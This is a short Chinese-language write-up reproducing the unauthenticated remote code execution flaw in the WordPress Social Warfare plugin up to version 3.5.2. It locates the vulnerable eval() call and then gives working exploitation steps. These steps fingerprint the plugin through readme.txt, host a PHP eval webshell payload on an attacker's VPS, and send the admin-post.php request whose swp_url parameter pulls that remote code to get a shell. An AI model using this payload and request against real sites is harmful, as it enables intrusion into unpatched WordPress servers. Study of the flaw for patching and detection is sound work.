# WordPress Plugin - Social Warfare<=3.5.2 RCE

### 一、漏洞简介

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

### 二、漏洞影响

### 三、复现过程

**漏洞分析**

在/wp-content/plugins/social-warfare/lib/utilities/SWP_Database_Migration.php文件中有一处eval()函数，该函数将file_get_contents()读取的文件内容当做PHP代码执行导致RCE。

![](images/15895191206018.png)


**漏洞利用**

第一步：刺探是否安装了Social Warfare插件

访问


```
http://url/wp-content/plugins/social-warfare/readme.txt
```

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

![](images/15895191654033.png)


第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

`<pre>eval($_REQUEST['wpaa'])</pre>`

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。


```
http://url/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo();
```

![](images/15895192031469.png)
